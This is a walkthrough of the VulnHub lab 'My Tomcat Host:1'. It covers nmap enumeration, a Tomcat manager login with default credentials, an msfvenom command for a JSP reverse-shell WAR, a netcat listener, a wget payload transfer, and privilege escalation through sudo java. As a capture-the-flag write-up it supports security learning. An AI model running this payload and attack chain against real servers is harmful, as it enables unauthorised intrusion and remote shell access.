 # My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnGub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

### arp scan to find out our machine ip address on the network
![arp-scan](images/MyTomcatHost-1/arp-scan.png)
we found out our target ip address is 192.168.56.102

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/MyTomcatHost-1/nmap-scan.png)

*command exaplain:*
*nmap* - network scanner tool used to discover hosts and services on machines.
*-sC* - preforming script scan using default scripts.
*-sV* - preforming service version detection.
*-oA* - output in all formats.
*-Pn* - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, since all ports scan found the same port I wont show it.

from the nmap scan we discovered 2 ports are open:
*port 22* - ssh OpenSSH.
*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/
we got the Tomcat's welcome screen:
![tomcat-welcome-screen](images/MyTomcatHost-1/tomcat-welcome-screen.png)
if we try to enter the Manager App we get a authentication request:
![tomcat-auth-req](images/MyTomcatHost-1/tomcat-auth-req.png)
after searching the default username and password of tomcat version 9/8 on goole we found:
username: tomcat
password: tomcat

and we got in!
![tomcat-manager](images/MyTomcatHost-1/tomcat-manager.png)
now from the manager page we can uplaod new service applications to the server.
lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first lets create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:
![reverse-shell-create](images/MyTomcatHost-1/reverse-shell-create.png)

*command explain:*
*msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war*
*msfvenom* - rapid7 (creators of metasploit tool) tool for payload generation.
*-p* - payload to use.
*LHOST* - attacker ip address.
*LPORT* - attacker ip port.
*-f* - output format.
generating payload into shell.war file.

*nc -lvp 1234*
*nc* - netcat, tcp and udp tool for connections and listens.
*-l* - listen for connections.
*-v* - verbose output.
*-p* - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:
![upload-war-file](images/MyTomcatHost-1/upload-war-file.png)

if we browse to the service url: http://192.168.56.102:8080/shell/
we got a shell!
let's get a normal shell using python pty:
![foothold-shell](images/MyTomcatHost-1/reverse-shell-foothold.png)

let's see our sudo allowed commands:
![sudo-commands](images/MyTomcatHost-1/sudo-commands.png)
we can run java as root!
lets use the same method we got the reverse shell to get a root access but this time we create a jar file.
we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:
*on the attacker machine:*
![reverse-shell-send](images/MyTomcatHost-1/reverse-shell-send.png)
*on the target machine:*
![wget-revershell](images/MyTomcatHost-1/wget.png)

*fire up metasploit and set up the exploit:*
![msf](images/MyTomcatHost-1/msf.png)
*run the jar file in th target machine:*
![run-jar](images/MyTomcatHost-1/run-jar.png)

and we got root access!!
![root](images/MyTomcatHost-1/root.png)
